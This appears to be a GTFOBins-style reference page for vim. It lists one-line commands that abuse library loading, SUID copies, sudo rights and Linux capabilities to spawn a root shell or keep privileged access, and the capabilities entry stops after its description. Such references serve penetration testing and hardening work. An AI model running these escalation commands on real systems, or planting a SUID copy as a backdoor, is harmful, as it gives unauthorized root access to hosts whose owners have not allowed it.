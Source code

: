 ## **Library load**

It loads shared libraries that may be used to run code in the binary execution context.

- This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
    
    ```bash
    vim -c ':py import vim; from ctypes import cdll; cdll.LoadLibrary("lib.so"); vim.command(":q!")'
    ```
    

## **SUID**

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

- This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
    
    ```
    sudo install -m =xs $(which vim) .
    
    ./vim -c ':py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")'
    ```
    

## **Sudo**

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

- `sudo vim -c ':!/bin/sh'`
- This requires that `vim` is compiled with Python support. Prepend `:py3` for Python 3.
    
    ```
    sudo vim -c ':py import os; os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
    ```
    
- This requires that `vim` is compiled with Lua support.
    
    ```
    sudo vim -c ':lua os.execute("reset; exec sh")'
    ```
    

## **Capabilities**

If the binary has the Linux `CAP_SETUID` capability set or it is executed by another binary with the capability set, it can be used as a backdoor to maintain privileged access by manipulating its own process UID.
